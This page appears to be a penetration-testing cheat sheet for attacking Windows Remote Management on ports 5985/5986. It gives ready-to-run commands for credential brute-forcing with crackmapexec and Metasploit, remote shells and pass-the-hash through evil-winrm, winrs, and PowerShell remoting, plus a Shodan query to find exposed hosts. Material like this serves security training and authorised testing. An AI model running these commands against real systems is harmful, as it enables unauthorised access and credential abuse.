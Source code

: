 # 5985 - WinRM

[Windows Remote Management](https://msdn.microsoft.com/en-us/library/windows/desktop/aa384426\(v=vs.85\).aspx) (WinRM) is a Microsoft protocol that **allows remote management of Windows machines** over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.

If WinRM is enabled on the machine, it's trivial to remotely administer the machine from PowerShell. In fact, you can just drop in to a remote PowerShell session on the machine (as if you were using SSH!)

The easiest way to detect whether WinRM is available is by seeing if the port is opened. WinRM will listen on one of two ports:

* **5985/tcp (HTTP)**
* **5986/tcp (HTTPS)**

If one of these ports is open, WinRM is configured and you can try entering a remote session.

### Brute Force

Be careful, brute-forcing WinRM could block users.

```ruby
#Brute force
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt

#Just check a pair of credentials
## Username + Password + CMD command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -p <password> -x "whoami"
## Username + Hash + PS command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -H <HASH> -X '$PSVersionTable'
#Crackmapexec won't give you an interactive shell, but it will check if the creds are valid to access winrm
```

#### Metasploit

The winrm\_login module is a standard Metasploit login scanner to brute force passwords.

```
use auxiliary/scanner/winrm/winrm_login
```

### Using evil-winrm

```ruby
sudo apt install ruby-dev build-essential
gem install evil-winrm
```

Read **documentation** on its github: [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```ruby
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```

To use evil-winrm to connect to an **IPv6 address** create an entry inside _**/etc/hosts**_ setting a **domain name** to the IPv6 address and connect to that domain.

### CrackMapexec

Here’s an example of using CrackMapExec winrm method as local Administrator with a clear text password:

```
crackmapexec winrm -d . -u Administrator -p 'pass123' -x "whoami" 192.168.204.183 
```

Here’s example using a NTLM hash:

```
crackmapexec winrm -d . -u Administrator -H aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 -x "whoami" 192.168.204.183
```

### Docker evil-winrm

```
sudo docker pull oscarakaelvis/evil-winrm
```

```
sudo docker run --rm -ti --name evil-winrm -v /home/foo/ps1_scripts:/ps1_scripts -v /home/foo/exe_files:/exe_files -v /home/foo/data:/data oscarakaelvis/evil-winrm -i 10.129.169.244 -u tony -p 'liltony' -s '/ps1_scripts/' -e '/exe_files/'
```

### Pass the hash with evil-winrm

```ruby
evil-winrm -u <username> -H <Hash> -i <IP>
```

### Winrs (Windows)

```
winrs -r:192.168.1.105 -u:ignite.local\administrator -p:Ignite@987 ipconfig
```

## Login from windows

### Powershell

From a powershell command prompt:

```
$pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force 
$cred = New-Object System.Management.Automation.PSCredential ('ECORP.local\morph3', $pass) 
Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }
```

###

### Shodan

* `port:5985 Microsoft-HTTPAPI`

